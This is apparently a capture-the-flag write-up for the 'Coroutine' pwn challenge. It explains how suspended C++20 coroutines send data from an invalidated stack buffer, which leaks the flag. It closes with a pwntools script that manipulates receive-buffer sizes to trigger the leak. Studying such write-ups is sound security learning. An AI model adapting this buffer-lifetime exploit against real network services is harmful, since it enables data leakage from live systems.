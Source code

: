 # PWN/Coroutine

## Description

C++20 introduced coroutines, can they be used safely?
`nc coroutine.chal.idek.team 1337`


## Coroutine
This challenge is on C++ coroutines that are introduced in C++ 20. I suggest to read up on the [documentation](https://en.cppreference.com/w/cpp/language/coroutines) and get familiarize with coroutines before reading further.

In any case, here are the important points:
1. Coroutines are function that can be suspended and resume later.
2. Coroutines are stackless, obviously? cause the stack frame will be erase by other functions.
3. Information about the state of the coroutine is stored in a coroutine handler. I.E. local variables, parameters. Heap allocated local variables wtf -.-.
4. Coroutines are functions that contains the co_await, co_yield and co_return expression or implements `co_await` operator.
5. If we look at the disassembly of the compiled binary, any coroutine will have 3 functions under the same function symbol, which I am guessing is for `await_ready`, `await_resume` and `await_suspend` respectively.
6. Coroutines differ from threads: a program with coroutines execute sequentially and support multiple concurrent functions (by suspending and resuming coroutine functions), while a program spawning threads executes multiple parallel threads. In other words, a program with coroutines schedule its own execution of coroutines.

## Code analysis
Thankfully, source code is given. I will cover only the important functions, so lets drive right into it.

### proxy.py (client)

`proxy.py` interacts with the main binary (server). This is our client script. The functionaility is simple:

1. Connects to the binary 
2. Set receive buffer size for client
3. Set send buffer size for client
4. Send data to server
5. Receive data from server


### main (Server)

![image](https://user-images.githubusercontent.com/24536991/212623718-11bfd200-9eac-41ef-8867-2fd8eaea41ca.png)

The main function is responsible for setting up everything. It first creates the `io_context` struct on the stack then pass the `io_context` to `server` function.

### io_context

![image](https://user-images.githubusercontent.com/24536991/212623823-807666e7-9e8e-487f-ac7c-57b9e4f14e87.png)

In the `io_context` struct, there are 2 `vectors` (`reads_` and `writes_`) which holds our suspended coroutines. 

![image](https://user-images.githubusercontent.com/24536991/212624211-8f25227d-a8b6-42bc-8441-45f5988105a0.png)

In the `run_until_done` function, it calls `load_flag`, which loads the flag into a new stack frame, then loops through `reads_` and `writes_` that are ready for IO and resume each coroutine.

It also contains some helper functions such as `add_write`, `add_read` and `cancel` to help modify the `reads_` and `writes_` coroutine vector. `io_context` is the 'scheduler' for the program.

### client_loop
In the `server` function, it initialize the sockets for the connection and listens for connections. It then calls `client_loop`, which is the main part of this challenge. 

![image](https://user-images.githubusercontent.com/24536991/212624568-6adccd8f-d96f-4fe4-8bd9-4a53c1c0d96d.png)

Here we can see that it calls `RecvAsync` to receive input from us then calls `SendAllAsyncNewline` to echo it back to us. Hmmmm, why is the way receive and send being called differently? 

### RecvAsync & SendAsync
Lets take a look at the `RecvAsync` class first. 

![image](https://user-images.githubusercontent.com/24536991/212624774-90ed7760-4d11-4486-85f9-165c61dd2d59.png)

The constructor of `RecvAsync` declared a co_await operator, which will make it a coroutine. Here we see 3 functions (`await_ready`, `await_suspend`, `await_resume`). `await_ready` is the first function to be called when co_await `RecvAsync` is called. If `await_ready` returns false, it will call `await_suspend`, else it will call `await_resume`. `await_resume` is also called when the coroutine is resumed externally, by `io_context` for example. 

`await_ready` tries to recv from the socket, if successful, it will return true, else (no data have been entered through the proxy) it returns false and calls `await_suspend` which will store the coroutine handler to `io_context` (which then resumes the coroutine via `run_until_done`). In the challenge, `await_suspend` will always be called since it is very likely for the `recv` at `await_ready` to return -1 (it is unlikely for proxy.py to win the race since we are from a remote connection).

However, the same cannot be said for `SendAsync`. `SendAsync` has roughly the same code as `RecvAsync`, just switching `recv` to `send`. Here, `await_suspend` in `SendAsync` is unlikely to be called since `send` is likely to be successful, unless ....., `proxy.py`'s receive buffer is full, which we have control over.

### SendAllAsyncNewline & SendAllAsync

![image](https://user-images.githubusercontent.com/24536991/212625343-137feb11-810a-4b7b-becc-6dbd2beaec64.png)

Note that `SendAsync` is being called differently from `client_loop`. It first calls `SendAllAsyncNewline` which does not seems like a coroutine (see point 4 above), but it calls `SendAllAsync` which is a coroutine. It also allocates a `buffer2` which is on the stack, copy the content from `RecvAsync` to `buffer2`, and pass `buffer2` to `SendAllAsync` then to `SendAsync`. `buffer2` becomes invalid once `SendAllAsyncNewline` finish execution.  

What this means is that, `SendAsync` sends data from the stack and `RecvAsync` recv data to the heap (which is then copy to the stack in `SendAllAsyncNewLine`. Lets verify this in a debugger.

address starts with 0x7f -> stack, address starts with 0x56 -> heap

#### Register Content at `RecvAsync` `await_ready`. RSI holds the address of the buffer.

![recvasync](https://user-images.githubusercontent.com/24536991/212626020-3dd3862f-45de-4d2b-a7dd-e4c293c1cb3c.png)


#### Register Content at `SendAllAsyncNewline`. RCX holds the address of the buffer.

![sendallasyncline](https://user-images.githubusercontent.com/24536991/212626299-9fbf0762-5939-4507-bd7e-5310f1435a98.png)


#### Register Content at `SendAsync` `await_ready`. RSI holds the address of the buffer.

![sendasync](https://user-images.githubusercontent.com/24536991/212626320-64bbdc7c-d196-45b5-ae01-c6d21926f848.png)



On top of this, since `SendAllAsync` is called not as a coroutine in `SendAllAsyncNewline`, `SendAllAsyncNewline` ends up calling the `await_ready` function of `SendAllAsync`. This means `SendAllAsyncNewLine` could return to `client_loop` before the `send` was completed, through suspending `SendAsync`. This allows the next `RecvAsync` to be processed before the previous `send` finishes, and multiple send could be on hold at the same time if the `proxy.py` receive buffer is full. In addition, the buffer for `SendAsync` becomes invalid since `SendAllAsyncNewline` would have finished execution.  

### Exploit

Now it become obvious, since data is sent from the stack, which is always at the same address, there is a possibility of data overwriting. We can make use of `RecvAsync` to set the buffer size of the current `SendAsync` (by sending a N length string from `proxy.py`), and make `SendAsync` suspend so we can call `RecvAsync` again. We repeat this again, to queue at least 2 `SendAsync` into the `writes_` vector in the `io_context`, there after we drain the `writes_` vector twice (by receiving data from `proxy.py`, thereby making send free again), the first time to print garbage since `RecvAsync` would have cleared the flag in the stack, the second time to call `load_flag`, to load the flag into the stack and print out the flag (which coincides with `buffer2` in send `SendAllAsyncNewline`).


The steps to exploit are as follows:
1. Set a very low receive buffer for client
2. Connect
3. Send enough data so that server echos back and fills up our receive buffer
4. Send 1 more tranche of data
5. Receive all data from the client side.
6. Get your flag

## Exploit Script

```
from pwn import *
import time
#context.log_level = 'debug'
p = remote("coroutine.chal.idek.team", 1337)

def conn():
    p.recvuntil(b"> ")
    p.sendline(b"1")

def set_rcv(size):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

def send_str(string):
    p.recvuntil(b"> ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(string)

def recv(size):
    #p.recvuntil(b"> ")
    p.sendline(b"5")
    #p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

set_rcv(8)
conn()

for i in range(8):
    send_str(b"A" * 512)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
p.interactive()

```
